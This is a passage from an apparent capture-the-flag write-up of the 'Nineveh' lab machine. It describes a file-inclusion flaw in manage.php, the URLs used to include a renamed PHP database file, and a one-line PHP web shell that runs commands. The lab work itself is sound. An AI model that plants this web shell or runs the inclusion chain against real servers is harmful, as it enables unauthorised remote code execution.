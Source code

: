 but if we change the name of the file in notes parameter we get this error
```
/manage.php?notes=files/nineveh.txt
```

![](images/error.png)

if we change the name to something other than "ninevehNotes", it doesn't even try to include it hence we don't get any include() warning  
so there might be some check to ensure that file name contains ninevehNotes  
if we want to access the database we need to rename it to ninevehNotes.php or create a new database with this name  

![](images/rename1.png)

![](images/rename2.png)

now if we go to this URL, we get a parse error
```
/manage.php?notes=/var/tmp/ninevehNotes.php&c=ls
```

![](images/parseError.png)

this is because SQL is using single quote for its queries and we also used single quote in the php payload  
after changing the single quotes to double quotes RCE worked
```
<?php system($_GET["c"]); ?>
```
